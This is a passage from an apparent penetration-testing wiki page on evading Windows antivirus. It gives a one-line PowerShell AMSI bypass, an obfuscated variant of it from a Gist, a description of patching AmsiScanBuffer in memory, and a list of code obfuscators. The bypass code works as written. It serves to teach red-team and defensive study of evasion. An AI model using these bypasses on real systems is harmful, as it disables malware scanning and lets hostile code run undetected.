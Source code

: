 ```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

All it took was one line of powershell code to render AMSI unusable for the current powershell process. This line has of course been flagged by AMSI itself, so some modification is needed in order to use this technique.

Here is a modified AMSI bypass I took from this [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db).

```powershell
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
      $fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```

Keep in mind, that this will probably get flagged once this post comes out, so you should not publish any code if your plan is staying undetected.

**Memory Patching**

This technique was initially discovered by [@RastaMouse](https://twitter.com/\_RastaMouse/) and it involves finding address for the "AmsiScanBuffer" function in amsi.dll (responsible for scanning the user-supplied input) and overwriting it with instructions to return the code for E\_INVALIDARG, this way, the result of the actual scan will return 0, which is interpreted as a clean result.

{% hint style="info" %}
Please read [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) for a more detailed explanation.
{% endhint %}

There are also many other techniques used to bypass AMSI with powershell, check out [**this page**](basic-powershell-for-pentesters/#amsi-bypass) and [this repo](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) to learn more about them.

## Obfuscation

There are several tools that can be used to **obfuscate C# clear-text code**, generate **metaprogramming templates** to compile binaries or **obfuscate compiled binaries** such as:

* [**InvisibilityCloak**](https://github.com/h4wkst3r/InvisibilityCloak)**: C# obfuscator**
* [**Obfuscator-LLVM**](https://github.com/obfuscator-llvm/obfuscator): The aim of this project is to provide an open-source fork of the [LLVM](http://www.llvm.org/) compilation suite able to provide increased software security through [code obfuscation](http://en.wikipedia.org/wiki/Obfuscation\_\(software\)) and tamper-proofing.
* [**ADVobfuscator**](https://github.com/andrivet/ADVobfuscator): ADVobfuscator demonstates how to use `C++11/14` language to generate, at compile time, obfuscated code without using any external tool and without modifying the compiler.
* [**obfy**](https://github.com/fritzone/obfy): Add a layer of obfuscated operations generated by the C++ template metaprogramming framework which will make the life of the person wanting to crack the application a little bit harder.
* [**Alcatraz**](https://github.com/weak1337/Alcatraz)**:** Alcatraz is a x64 binary obfuscator that is able to obfuscate various different pe files including: .exe, .dll, .sys
* [**metame**](https://github.com/a0rtega/metame): Metame is a simple metamorphic code engine for arbitrary executables.